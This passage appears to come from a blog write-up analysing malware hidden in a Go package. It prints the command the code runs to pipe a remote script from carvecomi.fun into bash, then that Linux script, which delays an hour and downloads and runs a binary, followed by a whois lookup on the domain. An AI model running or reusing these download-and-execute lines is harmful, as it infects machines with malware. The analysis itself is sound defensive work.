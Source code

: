 The Go code will execute the following command:

```shell
/bin/sh -c wget -O - https://carvecomi.fun/storage/de373d0df/a31546bf | /bin/bash &
```

Which downloads and execute a script from `carvecomi [dot] fun/storage/de373d0df/f0eee999` if the user is running Linux.

```shell
#!/bin/bash

cd ~
if [[ "$OSTYPE" == "linux-gnu"* ]]; then
	if ! [ -f ./f0eee999 ]; then
		sleep 3600
		wget https://carvecomi.fun/storage/de373d0df/f0eee999
		chmod +x ./f0eee999
		app_process_id=$(pidof f0eee999)
		if [[ -z $app_process_id ]]; then
			./f0eee999
		fi
	fi
fi
```

Sadly the executable the script above downloads is multiple megabytes, which is a lot more than I feel like deconstructing.

I did find it rather curious that the malware only targets Linux devices. That is in stark contrast to "ordinary" malware that usually [targets Windows users](https://www.pcmag.com/news/windows-computers-account-for-83-of-all-malware-attacks-in-q1-2020), because of their higher market share.

For fun, I ran a quick whois query on the `carvecomi.fun` domain to check if the scammer was stupid enough to expose any personal information. Sadly the only information that provided was that the owner _might_ be based in the Seychelles, and that Cloudflare is used for DNS.

```
Domain Name: CARVECOMI.FUN
Registry Domain ID: D527869608-CNIC
Registrar WHOIS Server: whois.PublicDomainRegistry.com
Registrar URL: https://publicdomainregistry.com
Creation Date: 2025-02-17T18:26:13.0Z
Registry Expiry Date: 2026-02-17T23:59:59.0Z
Registrar: PDR Ltd. d/b/a PublicDomainRegistry.com
Registrar IANA ID: 303
Domain Status: serverTransferProhibited https://icann.org/epp#serverTransferProhibited
Domain Status: clientTransferProhibited https://icann.org/epp#clientTransferProhibited
Registrant Organization: N/A
Registrant State/Province: Not Applicable
Registrant Country: SC
Registrant Email: Please query the RDDS service of the Registrar of Record identified in this output for information on how to contact the Registrant, Admin, or Tech contact of the queried domain name.
Admin Email: Please query the RDDS service of the Registrar of Record identified in this output for information on how to contact the Registrant, Admin, or Tech contact of the queried domain name.
Tech Email: Please query the RDDS service of the Registrar of Record identified in this output for information on how to contact the Registrant, Admin, or Tech contact of the queried domain name.
Name Server: ALARIC.NS.CLOUDFLARE.COM
Name Server: KATJA.NS.CLOUDFLARE.COM
DNSSEC: unsigned
Billing Email: Please query the RDDS service of the Registrar of Record identified in this output for information on how to contact the Registrant, Admin, or Tech contact of the queried domain name.
Registrar Abuse Contact Email: abuse@publicdomainregistry.com
Registrar Abuse Contact Phone: +1.2013775952
URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/
>>> Last update of WHOIS database: 2025-02-26T22:57:43.0Z <<<

```